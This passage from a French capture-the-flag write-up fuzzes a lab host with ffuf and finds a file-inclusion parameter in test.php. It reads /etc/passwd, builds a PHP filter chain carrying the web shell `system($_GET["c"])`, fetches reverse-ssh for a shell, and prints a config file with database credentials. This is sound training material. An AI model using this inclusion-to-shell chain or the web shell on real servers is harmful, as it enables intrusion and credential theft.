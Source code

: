 Finalement j'ai eu recours à la wordlist `raft-large-words.txt` de *FuzzDB* en spécifiant l'extension de fichier `php` pour la recherche. Ça m'a remonté ce script `test.php` qui se plaignait de ne pas avoir de paramètres reçus par `GET` (donc via la query string). J'utilise une wordlist contenant des noms de paramètres communs pour voir s'il y en a un qui provoque une réponse différente :

```console
$ ffuf -u "http://192.168.56.124/test.php?FUZZ=1" -w tools/wordlists/common_query_parameter_names.txt -fs 80

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.124/test.php?FUZZ=1
 :: Wordlist         : FUZZ: tools/wordlists/common_query_parameter_names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 80
________________________________________________

file                    [Status: 200, Size: 0, Words: 1, Lines: 1]
:: Progress: [5699/5699] :: Job [1/1] :: 329 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
```

Sans trop de surprise ce paramètre est vulnérable à un directory traversal : si on lui passe `/etc/passwd` on obtient la liste des utilisateurs.

Si on indique au script de se lire lui-même (`test.php?file=test.php`) le semble centre rentrer dans une boucle ce qui est signe qu'une inclusion a lieu et non un simple `file_gets_content` ou similaire.

C'est donc l'occasion de sortir [GitHub - synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) et de créer une chaine de filtres pour le code PHP suivant :

```php
<?php system($_GET["c"]); ?>
```

Avec ça je peux rapatrier reverse-ssh et obtenir un shell interactif.

## No security in this crazy world

Une fois sur le système, je fouille un peu dans la racine web.

```php
bash-4.4$ cat config.php 
<?php
# CMS Made Simple Configuration File
# Documentation: https://docs.cmsmadesimple.org/configuration/config-file/config-reference
#
$config['dbms'] = 'mysqli';
$config['db_hostname'] = '127.0.0.1';
$config['db_username'] = 'cms_user';
$config['db_password'] = 'P@ssw0rdINSANITY';
$config['db_name'] = 'cms_db';
$config['db_prefix'] = 'cms_';
$config['timezone'] = 'Asia/Singapore';
```